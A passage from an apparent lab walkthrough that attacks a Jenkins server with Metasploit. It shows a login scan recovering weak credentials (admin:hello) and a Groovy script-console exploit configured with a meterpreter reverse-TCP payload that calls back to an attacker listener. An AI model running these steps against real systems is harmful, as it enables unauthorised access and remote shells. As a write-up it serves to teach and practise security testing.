 ``` 
   VHOST                                                                 no        HTTP server virtual host
```

At first it didn't work, because I changed the login URL to correspond to the URL path. But I had to leave it as /j_acegi_security_check (I checked the source code and saw that it was correct), and then it found the credentials admin/hello: 

``` 
[+] 192.168.217.128:9000 - Login Successful: admin:hello
```                                                       

So now I was able to login and look at things and change them. Interestingly, the exploitation didn't stop here. There is a module that also allowed me to get a shell with the credentials:

> This module uses the Jenkins-CI Groovy script console to execute OS commands using Java.

Don't forget to select the target as Linux:

``` 
options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        The API token for the specified username
   PASSWORD   hello            no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.217.128  yes       The target address
   RPORT      9000             yes       The target port (TCP)
   SRVHOST    192.168.217.132  yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path to the Jenkins-CI application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.217.132  yes       The listen address
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux
```
